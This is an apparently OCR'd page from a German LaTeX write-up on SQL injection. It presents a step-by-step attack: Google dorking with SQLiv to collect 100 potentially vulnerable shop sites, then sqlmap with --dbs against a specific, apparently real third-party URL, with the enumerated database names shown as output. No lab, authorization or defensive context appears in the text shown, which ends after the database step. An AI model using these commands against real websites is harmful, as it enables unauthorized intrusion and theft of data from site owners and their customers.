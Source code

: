 \textbf{Schritt 1: Finden von SQL-Injection-Schwachstelle}

Es wird Google Dorking verwendet, um die SQL-Injektionslücke in Zielen zu suchen und zu finden. SQLiv durchsucht jedes einzelne Ziel und sucht nach einer E-Commerce-Sicherheitsschwachstelle unter dem folgenden URL-Muster \texttt{''item.php?id=''}.\\

\begin{LaTeXCode}[caption={Google Dorking mit SQLiv},captionpos=b, label=LaTeXCode:gdsqliv][numbers=none]
~# sqliv -d inurl:item.php?id= -e google -p 100
\end{LaTeXCode}

Standardmäßig durchsucht SQLiv die erste Seite in der Suchmaschine, die bei Google 10 Websites pro Seite anzeigt. Daher wird hier das Argument -p 100 definiert, um 10 Seiten (100 Sites) zu durchsuchen. Basierend auf dem oben angegebenen Dork wird ein Ergebnis von verwundbaren URLs erhaltet, das wie folgt aussieht:

\begin{figure}[h]
	\centering
	\texttt{[image: sqllive.png]}
	\caption{Durchsuchung mit SQLiv}
\end{figure}

\newpage

\textbf{Schritt 2: SQL-Injektion mit SQLMAP}

Der Angriff wird mit SQLMap ausgeführt. Zuerst muss den Datenbankname zum Vorschein gebracht werden, der in der Datenbank Tabellen und Spalten enthält, die die Daten enthalten.

Ziel-URL: \texttt{http://www.acfurniture.com/item.php?id=25}\\

\textbf{A. Datenbankname aufdecken}\\

\begin{LaTeXCode}[caption={Aufdeckung vom Datenbankname},captionpos=b, label=LaTeXCode:advd1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/item.php?id=25" --dbs
\end{LaTeXCode}

Mit dem oben gegebenen Befehl wurde der Datenbankname erhalten:

\begin{table}[h]
	\centering
	\begin{tabular}{l}
		available databases         \\
		{[}*{]} acfurniture         \\
		{[}*{]} information\_schema
	\end{tabular}
	\caption{Ergebnis: Datenbankname}
\end{table}


